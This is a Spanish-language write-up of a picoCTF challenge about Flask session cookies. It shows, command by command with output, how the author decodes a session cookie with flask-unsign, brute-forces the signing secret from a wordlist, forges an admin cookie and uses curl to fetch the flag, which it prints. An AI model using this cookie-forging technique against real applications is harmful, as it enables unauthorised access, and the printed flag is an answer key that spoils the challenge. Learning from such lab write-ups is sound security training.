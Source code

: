## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
## Solución
Primeramente instalamos flask 
```
┌──(kali㉿Franco)-[~]
└─$ pipx install flask-unsign
'flask-unsign' already seems to be installed. Not modifying existing installation in
'/home/kali/.local/share/pipx/venvs/flask-unsign'. Pass '--force' to force installation.
                                                                                               
┌──(kali㉿Franco)-[~]
└─$ pipx ensurepath
/home/kali/.local/bin has been been added to PATH, but you need to open a new terminal or
    re-login for this PATH change to take effect. Alternatively, you can source your shell's
    config file with e.g. 'source ~/.bashrc'.

You will need to open a new terminal or re-login for the PATH changes to take effect.
Alternatively, you can source your shell's config file with e.g. 'source ~/.bashrc'.

Otherwise pipx is ready to go! ✨ 🌟 ✨
                                                                                               
┌──(kali㉿Franco)-[~]
└─$ source ~/.zshrc
                                                                                               
┌──(kali㉿Franco)-[~]
└─$ pipx install flask-unsign
'flask-unsign' already seems to be installed. Not modifying existing installation in
'/home/kali/.local/share/pipx/venvs/flask-unsign'. Pass '--force' to force installation.
                                                                                               
┌──(kali㉿Franco)-[~]
└─$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zvw4Vw.-trbXEw53R788R9w4Plu2YhO6y8"
{'very_auth': 'snickerdoodle'}

```

Hacemos un archivo con todas las cookies que se nos da

Al final, cambamos la cookie con el flask-unsign
```
┌──(kali㉿Franco)-[~]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zvw4Vw.-trbXEw53R788R9w4Plu2YhO6y8" --wordlist galletas.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
                                                                                               
┌──(kali㉿Franco)-[~]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zvw-fQ.NxN8I9xE7lN2DDVyn9A5FOqCYUA

┌──(kali㉿Franco)-[~]
└─$ curl -s http://mercury.picoctf.net:65344/display -H 'Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zvw9Pg.4otoApG4Bx8uYW97HOoePNTkpOU'

<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}</code></p>
```

## Notas adicionales
PipX es una **herramienta para instalar software escrito en Python por medio de espacios separados**. Está diseñada para ejecutar programas sin tener que forzar a cambiar la dependencia de otros programas.
## Referencias